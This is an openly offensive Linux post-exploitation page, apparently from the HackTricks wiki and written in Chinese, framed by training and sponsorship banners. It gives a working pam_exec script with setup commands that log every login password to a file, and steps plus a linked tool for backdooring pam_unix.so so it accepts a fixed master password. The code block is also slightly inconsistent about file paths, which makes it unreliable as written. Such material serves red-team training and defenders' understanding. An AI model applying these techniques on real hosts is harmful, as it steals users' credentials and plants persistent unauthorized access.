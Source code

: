 # Linux Post-Exploitation

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 使用 PAM 嗅探登录密码

让我们配置一个 PAM 模块来记录每个用户登录时使用的密码。如果你不知道 PAM 是什么，请查看：

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**有关更多详细信息，请查看 [原始帖子](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**。这只是一个摘要：

**技术概述：**
可插拔认证模块 (PAM) 提供了在基于 Unix 的系统上管理认证的灵活性。它们可以通过自定义登录过程来增强安全性，但如果使用不当也会带来风险。此摘要概述了一种使用 PAM 捕获登录凭据的技术，以及缓解策略。

**捕获凭据：**
- 创建一个名为 `toomanysecrets.sh` 的 bash 脚本，用于记录登录尝试，捕获日期、用户名 (`$PAM_USER`)、密码（通过 stdin）和远程主机 IP (`$PAM_RHOST`) 到 `/var/log/toomanysecrets.log`。
- 该脚本被设置为可执行，并通过 `pam_exec.so` 模块集成到 PAM 配置 (`common-auth`) 中，选项为安静运行并将认证令牌暴露给脚本。
- 该方法演示了如何利用被攻陷的 Linux 主机来隐秘地记录凭据。
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**有关更多详细信息，请查看[原始帖子](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**。这只是一个摘要：

可插拔认证模块（PAM）是Linux下用于用户认证的系统。它基于三个主要概念：**用户名**、**密码**和**服务**。每个服务的配置文件位于`/etc/pam.d/`目录中，那里有共享库处理认证。

**目标**：修改PAM以允许使用特定密码进行认证，绕过实际用户密码。这特别关注`common-auth`文件中使用的`pam_unix.so`共享库，该文件几乎被所有服务用于密码验证。

### 修改`pam_unix.so`的步骤：

1. **在`common-auth`文件中定位认证指令**：
- 负责检查用户密码的行调用`pam_unix.so`。
2. **修改源代码**：
- 在`pam_unix_auth.c`源文件中添加一个条件语句，如果使用预定义密码则授予访问权限，否则继续进行常规认证过程。
3. **重新编译并替换**修改后的`pam_unix.so`库到适当的目录。
4. **测试**：
- 使用预定义密码在各种服务（登录、ssh、sudo、su、屏幕保护程序）中授予访问权限，而正常的认证过程不受影响。

{% hint style="info" %}
您可以使用[https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)自动化此过程
{% endhint %}

{% hint style="success" %}
学习和实践AWS黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客攻击：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR分享黑客技巧。

</details>
{% endhint %}
